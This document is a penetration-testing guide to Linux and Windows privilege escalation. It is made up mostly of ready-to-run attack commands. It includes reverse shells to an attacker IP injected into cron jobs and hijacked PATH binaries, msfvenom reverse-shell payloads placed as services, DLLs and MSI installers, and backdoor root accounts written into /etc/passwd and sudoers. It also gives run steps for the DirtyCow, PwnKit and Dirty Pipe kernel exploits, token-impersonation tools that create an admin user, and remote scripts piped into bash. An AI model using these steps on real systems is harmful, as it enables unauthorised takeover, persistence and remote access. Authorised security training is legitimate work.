



# Privilege Escalation Exploitation
> **Difficulty:** Beginner–Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [Privilege Escalation Overview](#privilege-escalation-overview)
2. [Quick Win Checklist After Initial Access](#quick-win-checklist-after-initial-access)
3. [Linux Privilege Escalation](#linux-privilege-escalation)
   - [sudo -l Exploitation](#sudo--l-exploitation)
   - [SUID/SGID Binaries](#suidsgid-binaries)
   - [Cron Job Exploitation](#cron-job-exploitation)
   - [PATH Hijacking](#path-hijacking)
   - [Weak File Permissions](#weak-file-permissions)
   - [Kernel Exploits](#kernel-exploits)
   - [NFS no_root_squash](#nfs-no_root_squash)
4. [Windows Privilege Escalation](#windows-privilege-escalation)
   - [Token Privileges Analysis](#token-privileges-analysis)
   - [Unquoted Service Paths](#unquoted-service-paths)
   - [Weak Service Permissions](#weak-service-permissions)
   - [AlwaysInstallElevated](#alwaysinstallelevated)
   - [DLL Hijacking](#dll-hijacking)
   - [Token Impersonation](#token-impersonation)
   - [Scheduled Tasks](#scheduled-tasks)
   - [AutoRuns and Startup Persistence](#autoruns-and-startup-persistence)
5. [Automated Enumeration Tools](#automated-enumeration-tools)
6. [Full Command Reference](#full-command-reference)

---

## Privilege Escalation Overview

**Privilege escalation** is the process of moving from a low-privileged account (e.g., `www-data`, standard user) to a higher-privileged one (`root`, `SYSTEM`, `Administrator`) after obtaining initial access to a system. It is the critical second phase of the exploitation kill chain.

> **Note:** Privilege escalation is not always about finding a 0-day. The vast majority of real-world privesc paths exploit **misconfigurations**, **overprivileged accounts**, or **unpatched software** that exists in nearly every enterprise environment.

### Privilege Escalation as an Attack Phase



---

## Quick Win Checklist After Initial Access

Run these immediately after landing a shell — they cover the fastest-to-exploit misconfigurations:

```bash
# ─── Linux Quick Wins ───────────────────────────────────────────
id                                  # who are we?
sudo -l                             # can we run anything as root?
find / -perm -4000 -type f 2>/dev/null  # SUID binaries
cat /etc/crontab; ls /etc/cron*     # cron jobs
cat /etc/passwd | grep -v nologin   # accounts with shells
ls -la /home/                       # user home dirs
cat /etc/issue; uname -a            # OS version for kernel exploits
env; cat ~/.bash_history            # leaked creds in env/history
find / -writable -type f 2>/dev/null | grep -v proc  # writable files

# ─── Windows Quick Wins ─────────────────────────────────────────
whoami /all                         # current user + token privs
net user; net localgroup administrators  # local accounts
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
wmic service get name,startname,pathname | findstr /iv "C:\Windows"
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
schtasks /query /fo LIST /v | findstr /i "task\|run as"
```

---

## Linux Privilege Escalation

### sudo -l Exploitation

`sudo -l` lists what commands the current user can run with elevated privileges. Misconfigurations here are the most common quick-win privesc path.

```bash
sudo -l
# Example output:
# (root) NOPASSWD: /usr/bin/find
# (root) NOPASSWD: /bin/nano
# (ALL) ALL  ← full sudo!
```

**GTFOBins** (https://gtfobins.github.io) catalogs how to abuse common binaries for privilege escalation.

```bash
# find — execute commands
sudo find /etc -name passwd -exec /bin/sh \;

# nano — open /etc/shadow or write to privileged files
sudo nano /etc/sudoers
# Add: ALL ALL=(ALL) NOPASSWD: ALL

# vim — shell escape
sudo vim -c ':!/bin/sh'

# python / python3 — direct shell
sudo python3 -c 'import os; os.system("/bin/bash")'

# less — shell from pager
sudo less /etc/passwd
!/bin/sh    # typed inside less

# awk
sudo awk 'BEGIN {system("/bin/bash")}'

# tar — checkpoint action
sudo tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# perl
sudo perl -e 'exec "/bin/sh"'

# ruby
sudo ruby -e 'exec "/bin/sh"'

# env (pass through sudo env to execute)
sudo env /bin/sh

# bash (if explicitly allowed)
sudo bash
```

> **Warning:** When exploiting `sudo -l`, ensure your shell is a proper TTY first. Many exploits require `pty.spawn("/bin/bash")` or a `socat` upgrade before sudo interactive commands work correctly.

### SUID/SGID Binaries

**SUID** (Set User ID) binaries execute as the file's *owner* (often root) regardless of who runs them. A misconfigured SUID binary or a custom SUID binary with a vulnerability allows privilege escalation.

```bash
# Find all SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Find all SGID binaries
find / -perm -2000 -type f 2>/dev/null

# Find both
find / -type f \( -perm -4000 -o -perm -2000 \) 2>/dev/null | xargs ls -la
```

**Common exploitable SUID binaries:**

```bash
# bash (rarely SUID, but if it is):
/bin/bash -p     # -p preserves effective UID → root shell

# find with SUID:
/usr/bin/find . -exec /bin/sh -p \; -quit

# nmap (older versions with interactive mode):
/usr/bin/nmap --interactive
nmap> !sh

# cp — copy /etc/passwd with a modified version:
cp /etc/passwd /tmp/passwd.bak
echo 'root2::0:0:root:/root:/bin/bash' >> /etc/passwd
su root2   # passwordless root

# python with SUID:
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'

# Custom SUID C binary calling system() without full path (PATH injection):
# If SUID binary does: system("ps") → exploit with PATH hijacking
```

### Cron Job Exploitation

Cron jobs run as specific users (often root). If a script run by root is **world-writable**, or if the **directory containing it is writable**, an attacker can inject commands.

```bash
# View system crontabs
cat /etc/crontab
cat /etc/cron.d/*
ls -la /etc/cron.hourly /etc/cron.daily /etc/cron.weekly

# Check for user-level crontabs
crontab -l
ls -la /var/spool/cron/

# Find writable cron scripts
cat /etc/crontab | grep -v "^#" | awk '{print $7}' | xargs ls -la 2>/dev/null
```

**Exploiting a writable cron script:**

```bash
# If /etc/cron.d/backup contains: * * * * * root /opt/scripts/backup.sh
# And backup.sh is world-writable:
echo 'bash -i >& /dev/tcp/10.10.10.1/4444 0>&1' >> /opt/scripts/backup.sh
# Wait one minute for cron to fire → root shell received
```

**PATH abuse in crons:**

```bash
# If crontab has: PATH=/tmp:/usr/local/sbin:/usr/local/bin:/sbin:/bin
# And runs: * * * * * root curl http://internal/update.sh | bash
# Create malicious curl in /tmp:
echo '#!/bin/bash' > /tmp/curl
echo 'chmod +s /bin/bash' >> /tmp/curl
chmod +x /tmp/curl
# Wait for cron → /bin/bash becomes SUID → /bin/bash -p → root
```

### PATH Hijacking

When a privileged program (SUID binary or sudo script) calls another program **without a full path**, an attacker can create a malicious version in a directory earlier in the `$PATH`.

```bash
# Identify target: a SUID binary that calls "service" without full path
strings /usr/bin/suid_binary | grep -v "^/" | head -20
# Found: "service apache2 start"

# Create malicious 'service' in /tmp (or writable dir first in PATH):
echo '#!/bin/bash' > /tmp/service
echo 'bash -i >& /dev/tcp/10.10.10.1/4444 0>&1' >> /tmp/service
chmod +x /tmp/service
export PATH=/tmp:$PATH

# Run the SUID binary → it calls /tmp/service as root
/usr/bin/suid_binary
```

### Weak File Permissions

```bash
# /etc/passwd writable (add root user)
ls -la /etc/passwd
echo 'hacker:$(openssl passwd -1 hacker):0:0:root:/root:/bin/bash' >> /etc/passwd
su hacker   # password: hacker

# /etc/shadow readable
ls -la /etc/shadow
cat /etc/shadow | grep root
# Copy hash and crack with hashcat:
hashcat -m 1800 '$6$salt$hash...' /usr/share/wordlists/rockyou.txt

# /etc/sudoers writable
echo 'ALL ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
sudo bash

# SSH authorized_keys — if we can write to root's:
ssh-keygen -t rsa -f /tmp/id_rsa -N ""
cat /tmp/id_rsa.pub >> /root/.ssh/authorized_keys
ssh -i /tmp/id_rsa root@127.0.0.1
```

### Kernel Exploits

When no misconfiguration path exists, check the kernel version against known exploits.

```bash
uname -a
# Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018

cat /etc/os-release
lsb_release -a

# Check with linux-exploit-suggester
curl -s https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh | bash
```

**DirtyCow (CVE-2016-5195)** — kernel ≤ 4.8.3:

```bash
# Download and compile
gcc -pthread dirty.c -o dirty -lcrypt
./dirty <new_password>
# Creates a backdoor in /etc/passwd
su firefart   # or whatever the exploit creates
```

**PwnKit (CVE-2021-4034)** — pkexec LPE, affects most Linux distros:

```bash
# Affects polkit pkexec on virtually all Linux distros
git clone https://github.com/berdav/CVE-2021-4034
cd CVE-2021-4034 && make
./cve-2021-4034
# Spawns root shell
```

**Dirty Pipe (CVE-2022-0847)** — kernel 5.8 – 5.16.11:

```bash
gcc dirtypipe.c -o dirtypipe
./dirtypipe /etc/passwd 1 "root::0:0:root:/root:/bin/bash\n"
su   # no password needed
```

### NFS no_root_squash

When an NFS export has `no_root_squash`, a **remote root user can mount the share and their root permissions are preserved** on the files they create.

```bash
# On victim: check NFS exports
cat /etc/exports
# /home/backup *(rw,no_root_squash)  ← vulnerable!

# On attacker (as root):
showmount -e 10.10.10.50
mount -o rw,vers=2 10.10.10.50:/home/backup /mnt/nfs

# Copy bash and set SUID:
cp /bin/bash /mnt/nfs/bash
chmod +s /mnt/nfs/bash

# On victim (as low-priv user):
/home/backup/bash -p   # executes with root EUID
```

### Linux Privesc Decision Tree



---

## Windows Privilege Escalation

### Token Privileges Analysis

```cmd
whoami /all
```

Key privileges to look for:

| Privilege | Impact | Exploit |
|-----------|--------|---------|
| **SeImpersonatePrivilege** | Impersonate SYSTEM token | PrintSpoofer, JuicyPotato |
| **SeAssignPrimaryTokenPrivilege** | Assign process token | PrintSpoofer, RoguePotato |
| **SeTcbPrivilege** | Act as OS | Create tokens |
| **SeDebugPrivilege** | Debug processes | Dump LSASS |
| **SeBackupPrivilege** | Read any file | Read SAM/NTDS |
| **SeRestorePrivilege** | Write any file | Replace binaries |
| **SeLoadDriverPrivilege** | Load kernel driver | Driver exploit |
| **SeTakeOwnershipPrivilege** | Own any object | Modify ACLs |

### Unquoted Service Paths

When a Windows service binary path contains spaces and is **not quoted**, Windows searches intermediate paths for executables.

```cmd
# Find unquoted service paths
wmic service get name,startname,pathname,startmode | findstr /iv "C:\Windows\\"

# Example output:
# SomeService  LocalSystem  C:\Program Files\Some App\service.exe  Auto

# Windows searches in order:
# 1. C:\Program.exe
# 2. C:\Program Files\Some.exe
# 3. C:\Program Files\Some App\service.exe

# If we can write to C:\Program Files\:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f exe > "C:\Program Files\Some.exe"
# Restart service:
sc stop SomeService && sc start SomeService
```

```powershell
# PowerShell detection
Get-WmiObject Win32_Service | Where-Object {
    $_.PathName -notmatch '^"' -and $_.PathName -match ' '
} | Select-Object Name, PathName, StartName
```

### Weak Service Permissions

If an account has **write access to a service's binary**, replacing it results in code execution as the service account (often SYSTEM).

```cmd
# Check service binary ACLs
icacls "C:\Program Files\VulnerableApp\service.exe"
# Look for: BUILTIN\Users:(F)  or  Everyone:(F)  ← full control

# View service security descriptor
sc sdshow VulnerableService

# Replace binary with payload:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f exe > service.exe
copy service.exe "C:\Program Files\VulnerableApp\service.exe" /Y

# Restart service:
sc stop VulnerableService
sc start VulnerableService
```

```powershell
# PowerShell: check service ACLs
$services = Get-WmiObject Win32_Service | Select-Object -ExpandProperty PathName
foreach ($svc in $services) {
    $path = $svc -replace '"', '' -replace ' .*', ''
    if (Test-Path $path) {
        $acl = Get-Acl $path
        $acl.Access | Where-Object {
            $_.FileSystemRights -match "FullControl|Modify|Write" -and
            $_.IdentityReference -match "Everyone|Users|Authenticated"
        } | ForEach-Object { Write-Host "$path : $($_.IdentityReference) - $($_.FileSystemRights)" }
    }
}
```

### AlwaysInstallElevated

When both HKLM and HKCU registry keys have `AlwaysInstallElevated` set to 1, **any MSI installer runs as SYSTEM**.

```cmd
# Check registry
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# If both return 0x1 → vulnerable
```

```bash
# Generate malicious MSI payload
msfvenom -p windows/x64/shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f msi > evil.msi

# Transfer and run on victim:
msiexec /quiet /qn /i C:\Temp\evil.msi
```

> **Warning:** `AlwaysInstallElevated` is a policy setting that should never be enabled in production environments. Its presence almost always indicates a domain misconfiguration and may affect multiple machines in the same policy scope.

### DLL Hijacking

Windows searches for DLLs in a specific order. If an application loads a DLL that doesn't exist in a directory the attacker controls, a malicious DLL placed there runs as the application's privilege level.

**DLL Search Order (default):**

1. Application directory
2. `%SYSTEMROOT%\System32`
3. `%SYSTEMROOT%\System16`
4. `%SYSTEMROOT%`
5. Directories in `%PATH%`

```cmd
# Find missing DLLs with Procmon (Sysinternals) — filter on:
# Result = NAME NOT FOUND
# Path ends with .dll

# Or use winpeas.exe to identify DLL hijack candidates
.\winpeas.exe quiet servicesinfo
```

```bash
# Create malicious DLL (using msfvenom)
msfvenom -p windows/x64/shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f dll > missing_lib.dll

# Or custom DLL in C:
# dllmain.cpp:
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hDll, DWORD reason, LPVOID reserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /c whoami > C:\\temp\\out.txt");
    }
    return TRUE;
}
```

### Token Impersonation

**SeImpersonatePrivilege** is commonly held by `IIS`, `SQL Server`, and service accounts. It allows creating a process with a stolen high-privileged token.

```powershell
# Check for SeImpersonatePrivilege
whoami /priv | findstr /i "SeImpersonatePrivilege"
```

**PrintSpoofer** (Windows 10 / Server 2019):

```cmd
# Upload PrintSpoofer.exe to target
PrintSpoofer.exe -i -c cmd
# Returns SYSTEM shell
```

**JuicyPotato** (Windows Server 2016 / older):

```cmd
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c whoami > C:\output.txt" -t *
# Use a valid CLSID from: https://github.com/ohpe/juicy-potato/tree/master/CLSID
JuicyPotato.exe -l 1337 -p cmd.exe -a "/c net user hacker P@ssw0rd! /add && net localgroup administrators hacker /add" -t * -c {CLSID}
```

**RoguePotato** (when JuicyPotato CLSIDs are blocked):

```cmd
# Requires attacker machine to forward port 135
# On attacker:
socat TCP-LISTEN:135,reuseaddr,fork TCP:10.10.10.50:9999

# On victim:
RoguePotato.exe -r 10.10.10.1 -e "cmd.exe /c whoami > C:\output.txt" -l 9999
```

### Scheduled Tasks

```cmd
# List all scheduled tasks
schtasks /query /fo LIST /v

# Filter for tasks not running as SYSTEM
schtasks /query /fo CSV | findstr /iv "NT AUTHORITY\SYSTEM"

# Check task action file ACLs
schtasks /query /fo LIST /v | findstr "Task To Run"
# Then check: icacls <path>
```

```powershell
# Find scheduled tasks with writable action paths
Get-ScheduledTask | ForEach-Object {
    $action = $_.Actions | Where-Object {$_.Execute -ne $null}
    if ($action) {
        $exe = $action.Execute
        if (Test-Path $exe) {
            $acl = Get-Acl $exe
            $acl.Access | Where-Object {
                $_.IdentityReference -match "Users|Everyone|Authenticated" -and
                $_.FileSystemRights -match "Write|Modify|FullControl"
            } | ForEach-Object {
                Write-Host "WRITABLE: $exe ($($_.IdentityReference))"
            }
        }
    }
}
```

### AutoRuns and Startup Persistence

```cmd
# Registry autorun locations
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

# Startup folders
dir "C:\Users\All Users\Start Menu\Programs\Startup"
dir "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"

# Check registry autorun ACLs (for writable entries)
# Use Sysinternals AutoRuns.exe for graphical view
```

### Windows Privesc Decision Tree



---

## Automated Enumeration Tools

### linpeas.sh (Linux)

```bash
# Download and run
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Transfer to target
python3 -m http.server 8080
# On target:
wget http://10.10.10.1:8080/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh

# Save output
./linpeas.sh 2>&1 | tee /tmp/linpeas.out

# Run specific check (network only)
./linpeas.sh -s       # slower more thorough
./linpeas.sh -q       # quiet (no colors)
```

**Key linpeas output sections to prioritize:**

- Yellow/Red highlighted items (high confidence findings)
- `sudo -l` output section
- SUID/SGID files
- Interesting writable files
- Active network connections (internal services)

### winpeas.exe (Windows)

```cmd
# Download
# https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASx64.exe

# Run (all checks)
.\winPEASx64.exe

# Specific categories
.\winPEASx64.exe quiet servicesinfo
.\winPEASx64.exe quiet windowscreds
.\winPEASx64.exe quiet processinfo

# Save output
.\winPEASx64.exe > C:\Temp\winpeas.txt 2>&1

# Use .bat version (no AV trigger as often)
.\winPEAS.bat
```

### linux-exploit-suggester.sh

```bash
# Download
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh

chmod +x linux-exploit-suggester.sh

# Run (reads uname output automatically)
./linux-exploit-suggester.sh

# Supply kernel version manually
./linux-exploit-suggester.sh --kernel 4.4.0

# Sample output:
# [+] [CVE-2016-5195] dirtycow
#    Tags: debian=7|8,RHEL=5{kernel:2.6.32-*},RHEL=6,RHEL=7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04
#    https://www.exploit-db.com/exploits/40839/
#    Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/security/cve/cve-2016-5195
```

### wesng (Windows Exploit Suggester Next Gen)

```bash
# On attacker:
git clone https://github.com/bitsadmin/wesng
cd wesng
python3 wes.py --update

# On victim — collect systeminfo:
systeminfo > C:\Temp\sysinfo.txt

# Transfer sysinfo.txt to attacker, then:
python3 wes.py sysinfo.txt

# Filter for critical/high only:
python3 wes.py sysinfo.txt -s critical high

# Exclude already installed patches:
python3 wes.py sysinfo.txt --patches KB2621440 KB2661637
```

---

## Full Command Reference

### Linux Command Reference

| Task | Command |
|------|---------|
| Current user + groups | `id` |
| Sudo permissions | `sudo -l` |
| All SUID files | `find / -perm -4000 -type f 2>/dev/null` |
| All SGID files | `find / -perm -2000 -type f 2>/dev/null` |
| World-writable files | `find / -writable -type f 2>/dev/null` |
| World-writable dirs | `find / -writable -type d 2>/dev/null` |
| Crontabs | `cat /etc/crontab; ls /etc/cron*` |
| Running processes | `ps auxf` |
| Network connections | `ss -tulnp` |
| Kernel version | `uname -a` |
| OS release | `cat /etc/os-release` |
| Installed packages | `dpkg -l` / `rpm -qa` |
| Environment variables | `env` |
| Bash history | `cat ~/.bash_history` |
| SSH keys | `find / -name "id_rsa" 2>/dev/null` |
| NFS exports | `cat /etc/exports` |
| Capabilities | `getcap -r / 2>/dev/null` |
| Open files | `lsof -i` |
| Check /etc/shadow | `ls -la /etc/shadow` |

### Windows Command Reference

| Task | Command |
|------|---------|
| Current user + privs | `whoami /all` |
| Local users | `net user` |
| Local admins | `net localgroup administrators` |
| Domain users | `net user /domain` |
| System info | `systeminfo` |
| Installed hotfixes | `wmic qfe get Caption,Description,HotFixID` |
| Running services | `sc query type= all state= running` |
| All services + paths | `wmic service get name,startname,pathname` |
| Firewall status | `netsh advfirewall show allprofiles` |
| Network interfaces | `ipconfig /all` |
| ARP cache | `arp -a` |
| Routing table | `route print` |
| Open ports | `netstat -ano` |
| Scheduled tasks | `schtasks /query /fo LIST /v` |
| Autorun registry | `reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run` |
| AlwaysInstallElevated | `reg query HKLM\...\Installer /v AlwaysInstallElevated` |
| Credential manager | `cmdkey /list` |
| PowerShell history | `type %APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` |
| Unquoted paths | `wmic service get name,pathname \| findstr /iv "C:\Windows"` |

> **Note:** On Windows, `winpeas.exe` will almost always give you more actionable output than manual enumeration alone. Run it early and read the highlighted sections carefully — the color coding (red = high confidence) saves significant triage time.
